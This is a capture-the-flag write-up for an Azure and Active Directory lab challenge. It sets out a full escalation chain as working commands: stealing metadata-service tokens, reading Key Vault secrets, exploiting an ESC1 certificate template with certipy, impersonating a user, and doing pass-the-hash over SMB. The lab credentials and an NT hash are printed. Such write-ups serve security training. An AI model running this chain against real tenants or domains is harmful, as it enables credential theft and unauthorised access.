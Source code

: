 # OBJECTIVE 19 - Active Directory  

## OBJECTIVE  
Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What is the name of the secret file in the inaccessible folder on the *FileShare*?

## Hints

<details>
  <summary>Hints provided for Objective 19</summary>

- Certificates are everywhere—even in Active Directory! Misconfigured Certificate Services can be a goldmine.
- Alabaster’s SSH account has useful tools installed—poke around!
</details>

---

## My Approach

This objective focused on abusing misconfigured **Azure Key Vault access**, escalating via **Active Directory Certificate Services (AD CS)**, and finally retrieving a protected file via **SMB access** with **pass-the-hash**.

---

### Step 1: Retrieve Azure Access Token via Metadata Service

Logged in as `alabaster` (from Objective 17), I grabbed an Azure access token:

```bash
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01&resource=https://management.azure.com/' -H Metadata:true -s | jq
```

---

### Step 2: Enumerate Azure Resources

Used the token to list accessible Azure resources:

```bash
curl https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resources?api-version=2021-04-01 -H "Authorization: Bearer $TOKEN"
```

Discovered two key vaults:
- `northpole-it-kv`
- `northpole-ssh-certs-kv`

---

### Step 3: Access Key Vault Secrets

Requested a new token for `vault.azure.net`:

```bash
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01&resource=https://vault.azure.net' -H Metadata:true -s | jq
```

Then listed secrets in the `northpole-it-kv` vault:

```bash
curl https://northpole-it-kv.vault.azure.net/secrets/?api-version=7.4 -H "Authorization: Bearer $TOKEN2" | jq
```

Found the secret `tmpAddUserScript`, and retrieved it:

```bash
curl https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4 -H "Authorization: Bearer $TOKEN2" | jq
```

This revealed:
- **Username:** `elfy`
- **Password:** `J4\`ufC49/J4766`
- **Domain:** `northpole.local`
- **DC IP:** `10.0.0.53`

---

### Step 4: Enumerate AD CS for Misconfigurations (ESC1)

Used `certipy` to check for vulnerable certificate templates:

```bash
certipy find -vulnerable -dc-ip 10.0.0.53 -target northpole.local -u elfy@northpole.local -p "J4\`ufC49/J4766"
```

Confirmed **ESC1 vulnerability**:
- CA: `northpole-npdc01-CA`
- Template: `NorthPoleUsers`
- SAN enabled
- No manager approval

---

### Step 5: Enumerate Domain Users

Used Impacket’s `GetADUsers.py` to enumerate all users:

```bash
GetADUsers.py -all northpole.local/elfy:J4\`ufC49/J4766 -dc-ip 10.0.0.53
```

Identified user: **wombleycube**

---

### Step 6: Request Certificate for `wombleycube`

Requested a certificate for `wombleycube@northpole.local` using `elfy`'s credentials:

```bash
certipy req -u elfy@northpole.local -p "J4\`ufC49/J4766" -ca northpole-npdc01-CA -template NorthPoleUsers -upn wombleycube@northpole.local -dc-ip 10.0.0.53
```

Saved as: `wombleycube.pfx`

---

### Step 7: Authenticate as `wombleycube` Using Certificate

Used the certificate to get a TGT and NT hash:

```bash
certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53
```

Extracted NT hash:
```
5740373231597863662f6d50484d3e23
```

---

### Step 8: Pass-the-Hash and Access the File Share

Used `smbclient.py` with pass-the-hash:

```bash
smbclient.py -dc-ip 10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 northpole.local/wombleycube@10.0.0.53
```

Navigated to the `FileShare` and accessed:

```
/super_secret_research/InstructionsForEnteringSatelliteGroundStation.txt
```

---

### Final Output:

 **Secret File Name:** `InstructionsForEnteringSatelliteGroundStation.txt`  
 **Path:** `FileShare/super_secret_research/`

 **File Contents:**

> To enter the Satellite Ground Station (SGS), say the following into the speaker:  
>  
> *And he whispered, 'Now I shall be out of sight;  
> So through the valley and over the height.'  
> And he'll silently take his way.*

---

## Lessons Learned

This challenge demonstrated a **full-chain escalation**:
- Azure Metadata service abuse
- Exposed secrets in Key Vault
- AD CS misconfig (ESC1)
- Certificate impersonation
- Pass-the-hash to access internal shares

A great hands-on example of hybrid cloud and traditional AD exploitation.

